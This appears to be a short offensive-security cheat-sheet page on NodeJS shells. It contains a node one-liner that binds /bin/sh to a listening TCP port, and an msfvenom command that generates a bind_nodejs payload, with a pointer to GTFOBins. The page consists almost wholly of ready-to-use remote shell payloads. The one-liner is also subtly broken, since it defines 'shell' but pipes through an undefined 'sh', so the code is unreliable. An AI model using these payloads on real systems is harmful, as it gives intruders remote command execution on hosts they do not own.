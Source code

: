 # NodeJS

## 01 - One-liners

```javascript
node -e 'shell = require("child_process").spawn("/bin/sh");
require("net").createServer(function (client) {
  client.pipe(shell.stdin);
  sh.stdout.pipe(client);
  sh.stderr.pipe(client);
}).listen(process.env.<PORT>)'
```

## 02 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/unix/bind_nodejs lport=<PORT>
```

---
## References

### GTFOBins

- [GTFOBins: NodeJS]